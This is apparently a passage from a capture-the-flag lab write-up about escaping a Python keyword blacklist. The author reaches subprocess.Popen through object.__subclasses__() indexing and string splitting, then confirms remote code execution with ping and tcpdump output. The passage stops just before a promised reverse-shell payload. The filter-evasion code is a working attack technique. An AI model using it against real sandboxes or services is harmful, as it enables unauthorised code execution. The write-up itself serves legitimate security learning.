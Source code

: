 <pre>
i=0
for c in [].__class__.__base__.__subclasses__():
    print(str(i) + c.__name__)
    i+=1
</pre>

<p>What does this actually do? this part "[].__class__.__base__.__subclasses__()" returns a list of all subclasses of object. In case you did not know, all subclasses have the superclass (directly or indirectly) object. The variable "c" contains "class &lt;name of the class&gt;. In the loop, we print the index of the class in our array (only its name, thus essentially removing "class"). This way, we can determine what index our subprocess.Popen has in our array. Let's fine tune this a bit:</p>
<pre>
i = 0
for c in [].__class__.__base__.__subclasses__():
    if ("Po" + "pen" == c.__name__):
        print(f"{i} {c.__name__}")
    i += 1
</pre>

<p>This piece of code does the exact same thing with a small extention. It only returns the index of the process which we are looking for ("Popen"). Note that "Popen" is splitted in "Po" "pen" as the full word is blacklisted.</p>

<p>Apparently, it is possible to execute this module using the following syntax:</p>

<pre>
[].__class__.__base__.__subclasses__()[317](['ping', 'IPAdress'])
</pre>

<p>How does this work? As previously said, the first part return a list of all the subclasses that are loaded in the environment. We address the Popen class by its index and pass arguments through it using (['ping', 'IPAdress']). This is basically identical to subprocess. Popen(['ping', 'IPAddress']). This however, cannot be used do to the blacklisting. therefore the method using the index is a nice trick to achieve the same without mentioning any classnames. Let's see if our ping worked:</p>

<pre>
sudo tcpdump icmp -i tun0                                                                                                                                                           
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:54:03.038369 IP 10.10.11.62 > 10.10.14.47: ICMP echo request, id 1, seq 170, length 64
09:54:03.038380 IP 10.10.14.47 > 10.10.11.62: ICMP echo reply, id 1, seq 170, length 64
09:54:03.362923 IP 10.10.11.62 > 10.10.14.47: ICMP echo request, id 3, seq 86, length 64
09:54:03.362935 IP 10.10.14.47 > 10.10.11.62: ICMP echo reply, id 3, seq 86, length 64
09:54:03.390631 IP 10.10.11.62 > 10.10.14.47: ICMP echo request, id 2, seq 161, length 64
09:54:03.390642 IP 10.10.14.47 > 10.10.11.62: ICMP echo reply, id 2, seq 161, length 64
09:54:04.041602 IP 10.10.11.62 > 10.10.14.47: ICMP echo request, id 1, seq 171, length 64
09:54:04.041615 IP 10.10.14.47 > 10.10.11.62: ICMP echo reply, id 1, seq 171, length 64
</pre>

<p>YES, we have code execution, We get a lot of pings on our machine. I probably should have specified to ping only once because now it will keep pinging our machine indefinitely. But that's not really an issue here.</p>

<p>Now, it is time to craft our payload for a reverse shell. For this, I tried the following payload:</p>
